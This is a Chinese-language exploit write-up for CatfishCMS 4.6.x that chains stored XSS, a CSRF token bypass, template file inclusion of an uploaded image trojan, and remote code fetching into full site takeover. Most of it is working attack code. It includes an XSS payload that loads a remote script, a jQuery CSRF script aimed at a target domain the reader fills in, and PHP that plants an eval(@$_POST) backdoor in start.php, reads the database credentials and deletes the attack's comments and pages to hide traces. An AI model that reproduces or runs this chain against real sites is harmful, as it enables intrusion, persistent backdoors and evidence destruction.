 # CatfishCMS 4.6.15 csrf getshell

## 一、漏洞简介

在测试的过程中发现更新版本的时候作者添加一个参数 verification 可能是用来防治csrf。嗯，不得不说，作者安全意识提高了，用来防治csrf这的却是一个好思路，但是对于我们可以执行xss来说，verification 就显的苍白无力了，因为我们可以先获取
verification 然后在执行csrf 从而来绕过。

## 二、漏洞影响

CatfishCMS 4.6

## 三、复现过程

漏洞分析

文件：CatfishCMS-4.6.12\catfish\library\think\Template.php

函数：fetch()

![](images/15889457094612.png)


![](images/15889457140587.png)


![](images/15889457201584.png)


![](images/15889457250237.png)


![](images/15889457298694.png)


![](images/15889457344435.png)


嗯，说完了。Fetch方法最后都会编译文件以后通过PHP输出，所以如果我们可以在他编译之前写入
恶意代码 那么就可以为所欲为。

**复现**

前台注册一个账户->注册一个图片马到网站中->评论处插入xss代码->等待无辜管理员登录网站->获取 verification(绕过检测)->管理员入口-页面管理-新建页面-csrf插入一条非法语句引起包含漏洞(用来包含前面的图片马)->包含漏洞执行代码->包含漏洞添加getshell_code.php文件写入恶意代码->包含漏洞-将框架文件start.php添加一句话木马-包含数据库配置文件-连接数据库->删除我们前面的评论->删除我们csrf创建的页面->邮件通知我们->getshell

CatfishCMS-4.6.12-xss.js


```js
*  
    需要插入的xss代码
    <img src="#" alt="xss_csrf_getshll" onerror="var url = 'http://127.0.0.1/cms/CatfishCMS-4.6.12/xss-js/CatfishCMS-4.6.12-xss.js';xss_js = '<scr'+'ipt src='+url+'><\/sc'+'ript>';$('body').append(xss_js);">
*/ 

//不用动的
var articles = 'index.php/admin/Index/articles.html';//用来获取 verification 绕过检测
var newpage = 'index.php/admin/Index/newpage.html';//生成文章地址
var allpage = 'index.php/admin/Index/allpage.html';//获取文章链接

//需要改的
var url = 'http://0-sec.org';//你要日的站的域名
var directory = '/cms/CatfishCMS-4.6.12/'; //日的站的额外目录一般为空即可(站点设置二级目录时，此目录要填写)
var img_trojan_url = '../../../'+'data/uploads/20171201/2c8b7c7f1d49faeb5321ce0c9b1962af.jpg';//图片马的地址 修改 + 号后面的即可
var getshell_code = 'http://127.0.0.1/cms/CatfishCMS-4.6.12/xss-js/getshell_code.txt';//恶意代码远程包含的地址

$('body').append('<div id="csrf_verification" style="display:none;"></div>');
$('body').append('<div id="csrf_allpage" style="display:none;"></div>');

$.ajax({
    url: url+directory+articles,
    dataType: "json",
    success: function(verification_content){
        $('#csrf_verification').append(verification_content);
        var verification = $('#verification').html();//用来绕过验证的
        // alert(verification);

        //csrf生成文章,引起文件包含漏洞
        $.ajax({
            type: "POST",
            url: url+directory+newpage,
            data: {
                'biaoti':'xss_csrf_getshll',
                'template':img_trojan_url,
                'verification':verification,
                'fabushijian':'2017-12-05 11:56:48'
            },
            success: function(){
                //csrf获取shell链接
                $.ajax({
                    type: "POST",
                    url: url+directory+allpage,
                    success: function(allpage_content){
                        $('#csrf_allpage').append(allpage_content);
                        var shell_id = $('#csrf_allpage .table-responsive .table-bordered tbody tr td .gouxuan').eq(0).val();
                        var shell_url = $('#csrf_allpage .table-responsive .table-bordered tbody tr td a').eq(0).attr('href');

                        var shell_content = '';
                            shell_content+= "$myfile = fopen('getshell_code.php', 'w');";
                            shell_content+= '$txt = '+'file_get_contents("'+getshell_code+'");';
                            shell_content+= 'fwrite($myfile, $txt);';
                            console.log(shell_content);
                        
                        //执行shell 生成马子
                        $.ajax({
                            type: "POST",
                            url: url+shell_url,
                            dataType: "json",
                            data: {'ddd':shell_content},
                            success: function(data){
                                $.ajax({
                                    type: "GET",
                                    url: url+directory+'getshell_code.php',
                                    dataType: "json", 
                                    // data: {'zzz':1}
                                });
                            },
                            error: function(){
                                $.ajax({
                                    type: "GET",
                                    url: url+directory+'getshell_code.php',
                                    dataType: "json", 
                                    // data: {'zzz':1}
                                });
                            }   
                        });

                    } 
                });

            } 
        });

    }
});
```

![](images/15889457568590.png)


![](images/15889457612153.png)


写好以后模拟管理员，进入后台

![](images/15889457687750.png)


![](images/15889457731744.png)


![](images/15889457772607.png)


![](images/15889457816704.png)


getshell_code


```php
<?php  
    $start_content = file_get_contents('catfish/start.php').'eval(@$_POST[ddd]);';
    $start = fopen('catfish/start.php', 'w');
    fwrite($start, $start_content);
    if( @$_GET[zzz]){
        $config = require_once("application/database.php");
        //分别对应的是 地址，端口号，连接的数据库，编码
        $dsn = "mysql:host={$config['hostname']}; port={$config['hostport']}; dbname={$config['database']}; charset={$config['charset']}";
        $user = $config['username'];
        $psw = $config['password'];
        $pdo = new PDO($dsn,$user,$psw);
        $sql = "DELETE from catfish_posts WHERE post_title LIKE '%xss_csrf_getshll%'";
        $sql_1 = "DELETE from catfish_comments WHERE content LIKE '%xss_csrf_getshll%'";
        $pdo->query($sql);
        $pdo->query($sql_1);
        unlink('getshell_code.php');
    }
?>
```

![](images/15889457970382.png)


连接马子的操作，这个文件会在index.php中给引入所以直接


```
http://url/index.php

POST

ddd = 你要执行的命令
```

![](images/15889458166901.png)


![](images/15889458210567.png)
